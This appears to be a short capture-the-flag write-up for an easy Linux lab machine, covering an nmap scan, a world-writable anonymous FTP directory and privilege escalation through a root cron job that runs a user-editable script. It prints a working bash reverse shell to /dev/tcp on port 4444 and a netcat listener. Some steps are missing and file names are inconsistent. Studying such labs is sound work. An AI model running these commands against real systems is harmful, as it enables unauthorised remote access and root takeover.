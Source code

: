 This is an easy `linux` machine. 
I start by doing an `nmap` scan.
```

```
Here we have Anonymous ftp access. However the interesting part is the `/ftp` director has `rwx` permission for everyone! So that means, if we can find a way to execute files from this directory, we can get a reverse shell!

Doing a simple `gobuster` search, I find that there is `/files` endpoint that shows all the files/directories of the ftp root folder in the browser. So, this means we can "execute" or "access" a file via browser. 


Beautify the shell a bit:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`


# Privilege Escalation
There seems some files in the home folder of `lennie`.
In the `scripts` folder, we see `phanner.sh`:
```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
It is essentially executing `/etc/print.sh` script. Checking this files permissions, we see it is owned by `lennie` and so we can edit it! Welp, in that case, we can simply ask this sh to give us a reverse shell and as the caller `planner.sh` is owned by root and hence run by root, we can get a root shell! Nice.
```bash
bash -c "bash -i >& /dev/tcp/10.2.0.159/4444 0>&1"
echo 'Done!'
```

I open `nc` on my local machine (`rlwrap nc -nvlp 4444`) and wait for the root to execute the script as part of its `cron` job.
``